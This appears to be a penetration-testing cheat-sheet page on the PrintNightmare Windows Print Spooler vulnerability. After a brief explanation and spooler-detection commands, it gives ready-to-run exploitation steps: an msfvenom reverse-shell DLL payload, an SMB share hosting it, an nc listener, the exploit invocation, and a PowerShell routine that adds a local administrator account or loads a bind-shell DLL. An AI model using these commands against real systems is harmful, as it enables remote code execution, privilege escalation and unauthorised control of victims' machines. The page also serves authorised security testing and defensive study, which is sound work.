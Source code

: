 # Overview
>"PrintNightmare" refers to an RCE (Remote Command Execution) vulnerability. If the vulnerable machine is configured to reject remote connection, this vulnerability could still be exploited in an LPE (Local Privilege Escalation) context.
>In a detailed blogpost ([here](https://cyberwatch.fr/actualite/cve-2021-34527-comment-identifier-et-neutraliser-la-vulnerabilite-printnightmare/)), Cyberwatch describes that the vulnerability lies in the functions allowing remote driver installation by users, `RpcAddPrinterDriverEx` and `RpcAddPrinterDriver`:
>1. The attacker stores the driver DLL file on a SMB share reachable from the server.
>2. The client creates a [`DRIVER_INFO_2`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/39bbfc30-8768-4cd4-9930-434857e2c2a2) object containing the path to the attacker's DLL and passes it into the DRIVER_CONTAINER object.
>3. The client calls [`RpcAddPrinterDriverEx`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) with the `DRIVER_CONTAINER` to load the attacker's DLL into the server's dynamic library and with multiple bit values within the `dwFileCopyFlags` in order to bypass the `SeLoadDriverPrivilege` privilege verification by the server.
>4. The attacker's DLL is executed on the server within `SYSTEM` context.

## Is Spooler active ?

```bash
# with cme
nxc smb <target_ip> -M spooler

# with impacket
rpcdump.py @<target_ip> | egrep 'MS-RPRN|MS-PAR'
```

## Exploit
### Linux
1. Check if the target's RPC pipes are available: Impacket's [rpcdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py)
2. Generate a DLL payload: [msfvenom](https://github.com/rapid7/metasploit-framework/blob/master/msfvenom)
3. Host an SMB server from which the DLL can be fetched: Impacket's [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
4. Exploit PrintNightmare: CVE-2021-1675.py ([MS-RPRN abuse](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare), [MS-PAR abuse](https://github.com/cube0x0/CVE-2021-1675/blob/main/SharpPrintNightmare/CVE-2021-1675.py))
5. Profit from the DLL being executed by the target

```bash
# Create a DLL payload (reverse shell in this example)
msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=<local_ip> LPORT=<local_port> -o /workspace/smb/remote.dll

# Host a SMB share 
smbserver.py -smb2support "WHATEVERNAME" /workspace/smb/

# Start the listener (for the reverse shell)
nc -lvnp <local_port>

# Run the exploit
CVE-2021-1675.py <domain>/<user>:<password>@<target_ip> '\\$LOCAL_IP\$SHARE\remote.dll'
```

### Windows
https://github.com/JohnHammond/CVE-2021-34527
```powershell
powershell -ep bypass
# add new user to local admin group
Import-Module .\cve-2021-34527.ps1
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure"

# or custom DLL
Import-Module .\cve-2021-34527.ps1
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```
